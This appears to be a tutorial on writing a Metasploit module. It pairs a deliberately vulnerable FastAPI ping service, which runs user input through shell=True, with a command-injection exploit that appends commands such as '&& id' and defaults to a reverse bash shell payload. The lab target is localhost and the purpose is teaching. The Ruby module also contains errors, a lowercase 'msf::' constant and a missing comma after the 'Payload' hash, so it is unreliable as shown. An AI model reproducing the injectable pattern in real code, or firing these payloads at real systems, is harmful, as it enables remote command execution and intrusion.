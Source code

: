 ## A Vulnerable Service
3. Copy the following code into your file:
```python
    from fastapi import FastAPI, Response
    import subprocess

    app = FastAPI()

    @app.get("/ping")
    def ping(ip : str):
        res = subprocess.run(f"ping -c 1 {ip}", shell=True, capture_output=True)
        return Response(content=res.stdout.decode("utf-8"), media_type="text/plain")
    ```

5. Test that the application works with `curl`:
```sh
    $ curl http://localhost:8000/ping?ip=1.1.1.1
    PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
    64 bytes from 1.1.1.1: icmp_seq=1 ttl=58 time=16.7 ms

    --- 1.1.1.1 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 16.739/16.739/16.739/0.000 ms
    ```

6. Test that your application is exploitable - also with `curl`:
```sh
    $ curl localhost:8000/ping?ip=1.1.1.1%20%26%26id
    PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
    64 bytes from 1.1.1.1: icmp_seq=1 ttl=58 time=16.6 ms

    --- 1.1.1.1 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 16.614/16.614/16.614/0.000 ms
    uid=1000(meta) gid=1000(meta)
    ```

## The Structure of a Module
### Where to put a Module
## A Shell of a Module
The shell of a module that follows the above format is something like this:
```ruby
class MetasploitModule < msf::Exploit::Remote
  Rank = GoodRanking
  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    # empty for now
  end

  def filter_bad_chars(cmd)
    # empty for now
  end

  def execute_command(cmd, _opts = {})
    # empty for now
  end

  def exploit
    # empty for now
  end
end
```

## Initialize
The `initialize` method is used to define and pass metadata. Every `initialize` method in the metasploit-framework codebase follows the format of an empty `info` being passed into `update_info`, which gets passed to the `msf::Exploit::Remote` `initialize` method:
```ruby
def initialize(info = {})
  super(
    update_info(
      info,
      # Here is where the metadata goes
      'Name' => 'Command Injection against a test Ping endpoint',
      'Description' => 'This exploits a command injection vulnerability against a test application',
      'License' => MSF_LICENSE,
      'Author' => 'YOUR NAME',
      'References' => [
        ['URL', 'https://metasploit.com/']
      ],
      'DisclosureDate' => '2023-08-04',
      'Platform' => 'linux', # used for determining compatibility - if you're doing code injection, this may be the language of the webapp
      'Targets' => [
        'Unix Command',
        {
          'Platform' => ['linux', 'unix'], # linux and unix have different cmd payloads, this gives you more options
          'Arch' => ARCH_CMD,
          'Type' => :unix_cmd, # Running a command - this would be `:linux_dropper` for a cmdstager dropper
          'DefaultOptions' => {
            'PAYLOAD' => 'cmd/unix/reverse_bash',
            'RPORT' => 8000,
          }
        }
      ],
      'Payload' => {
        'BadChars' => '\x00',
      }
      'Notes' => { # Required for new modules https://docs.metasploit.com/docs/development/developing-modules/module-metadata/definition-of-module-reliability-side-effects-and-stability.html
        'Stability' => [CRASH_SAFE],
        'Reliability' => [REPEATABLE_SESSION],
        'SideEffects' => [IOC_IN_LOGS]
      }
      # Some more metadata options are here: https://docs.metasploit.com/docs/development/developing-modules/module-metadata/module-reference-identifiers.html#code-example-of-references-in-a-module
    )
  )
end
```

## Filtering
Encoding requirements might change based on the application you're trying to inject, so experiment if things aren't working.
```ruby
def filter_bad_chars(cmd)
  return cmd
    .gsub(/&/, '%26')
    .gsub(/ /, '%20')
end
```

## Execution
The `execute_command` method takes in `cmd` and `_opts` and executes the command on the target. In our case, executing a command is simply adding the command to a GET request and sending it to the `/ping` endpoint on our sample service.
```ruby
def execute_command(cmd, _opts = {})
  send_request_cgi({
    'method' => 'GET',
    'uri' => '/ping',
    'encode_params' => false,
    'vars_get' => {
      'ip' => "bing.com%20%26%26%20#{filter_bad_chars(cmd)}",
    }
  })
end
```

## Exploitation
To finish up, all we need is to define the `exploit` method. This method is called by Metasploit when you use `run` within a msfconsole. All that we'll do here is print a little status message and run the exploit, but later you can modify this method to handle droppers as well:
```ruby
def exploit
  print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")
  execute_command(payload.encoded)
end
```

If you're running Metasploit and the vulnerable Python service on the same machine, you should be able to simply set the variables and fire:
```sh
set RHOST 127.0.0.1
set LHOST 127.0.0.1
run
```

